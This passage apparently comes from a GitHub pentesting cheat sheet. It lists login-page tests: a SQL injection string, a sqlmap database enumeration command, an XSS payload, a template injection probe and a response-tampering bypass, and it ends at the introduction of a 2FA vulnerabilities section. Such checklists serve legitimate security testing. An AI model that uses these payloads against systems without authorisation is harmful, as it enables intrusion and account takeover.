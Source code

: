 ## **4️⃣ SQL Injection in Username**

```sh
- Try injecting SQL commands in the username field:
  - admin' or 1=1; -- -
```

## **5️⃣ Response Manipulation to Bypass Login Page**

```sh
- Intercept the login response using Burp Suite or a proxy tool.
- Modify the response to force authentication bypass.
```

## **6️⃣ SQL Injection Testing via SQLMap**

```sh
- Capture the login request and test for SQL injection using SQLMap:
  - sqlmap -r request.txt --dbs
```

## **7️⃣ XSS Injection in Username**

```sh
- Try injecting an XSS payload in the username field:
  - <svg/onload=confirm()>
```

## **8️⃣ Template Injection in Username**

```sh
- Try injecting a template expression in the username:
  - {{9*9}}
- If `81` is printed, the application is vulnerable to template injection.
```

## **9️⃣ Checking for Leaked Credentials in Source Code**

```sh
- View the source code of the login page using CTRL+U.
- Look for hardcoded credentials or sensitive information.
```

---

# 🔐 2FA Vulnerabilities Cheat Sheet

## **Introduction**

Two-Factor Authentication (2FA) is a critical security feature, but improper implementation can lead to bypasses and account takeovers. Below is a list of common 2FA vulnerabilities and attack scenarios.

---